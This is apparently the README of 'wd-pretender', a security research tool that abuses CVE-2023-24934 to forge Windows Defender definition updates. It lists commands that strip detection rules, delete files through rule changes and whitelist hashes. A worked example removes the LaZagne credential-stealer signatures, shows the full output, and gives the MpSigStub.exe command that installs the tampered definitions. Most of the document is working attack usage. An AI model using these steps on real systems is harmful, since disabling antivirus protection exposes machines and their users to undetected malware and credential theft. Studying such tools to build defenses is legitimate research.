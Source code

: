 # wd-pretender

## TL;DR
Compatible with Windows Defender platform version 4.18.2302.7 and earlier.


## Description
wd-pretender is a powerful tool designed to simulate a Windows Defender update using the [CVE-2023-24934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-24934) vulnerability. This tool is intended for educational and research purposes only and should be used responsibly and with proper authorization. 


## Features
- Bypass EDR Rules: Bypass certain Windows Defender security measures and remain undetected.

## Installation 
Windows with Python 3.10+ with the libraries mentioned in the file `requirements.txt`


## Usage
```
-- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
usage: wd-pretender.py command [options]

Windows Defender Update

positional arguments:
  {bypass,delete}
    bypass             bypass windows defender rules by threat name
    delete             delete file by modifying rules
    freindly           add hash to friendly files
    
optional arguments:
  -h, --help           show this help message and exit
  -o OUTPUT            output folder for the exported vdm files
  -d DEFINITIONS_PATH  set explicit definitions path
```

### Bypass
```
        -- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
usage: wd-pretender.py command [options] bypass [-h] threat_name

positional arguments:
  threat_name  delete all threats matching <threat_name>
```

For example we want to bypass LaZagne rules and be able to execute LaZagne without been detected by Windows Defender.

```
python wd-pretender.py -o C:\BypassDefs bypass lazagne
```

Output:

```
python .\wd-pretender.py -o C:\Definitions bypass lazagne

        -- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
[+] Definitions Path: C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5235DDA9-EDFD-456F-A39A-88CF98DA5B71}
[+] Loading mpasbase.vdm
[+] Loading mpasdlta.vdm
[+] Loading mpavbase.vdm
[+] Loading mpavdlta.vdm
[+] Enumerating Anti-Virus Definitions
[+] Threats Containing: lazagne
        Deleting => b'\xd8!LaZagne'
        Deleting => b'HackTool:Python/LaZagne'
        Deleting => b'HackTool:Python/LaZagne.A!MTB'
        Deleting => b'\xd8!LaZagne!ml'
        Deleting => b'HackTool:Python/LaZagne.D!MTB'
        Deleting => b'\xcc!Golazagne.A!MTB'
        Deleting => b'HackTool:Python/LaZagne.B'
        Deleting => b'\xd8!LaZagne!sms'
        Deleting => b'\xcc!Lazagne.A!MTB'
        Deleting => b'\xcc\xe1Lazagne'
[+] Enumerating Anti-Spyware Definitions
[+] Threats Containing: lazagne
[+] Exporting Definitions into: C:\Definitions
[+] mpasdlta.vdm: 1.391.491.0 => 1.391.492.0
[+] mpavdlta.vdm: 1.391.491.0 => 1.391.492.0
[+] Done!
```
The output displays the deleted threat rules recorded by the tool, indicating the removal of 10 threats from the Anti-Virus definitions. The newly updated definitions have been exported to the user-supplied export path located at C:\BypassDefs.

To proceed, ensure that MpSigStub.exe is copied to the BypassDefs folder. Following that, execute the following command:

```
MpSigStub.exe /stub 1.1.18500.10 /payload <defintion_new_version>
```
The export log generated by wd-pretender confirms the presence of the updated definitions with the version indicated as <definition_new_version>.

To verify the successful update, please refer to the "MpSigStub.log" file located in the Temp folder of the user with whom the execution took place. For instance, if the tool was executed with administrator privileges (although it is not a requirement), the log file can be found at C:\Windows\Temp.

## License
wd-pretender is released under the BSD 3-Clause License. 
Feel free to modify and distribute this tool responsibly, while adhering to the license terms.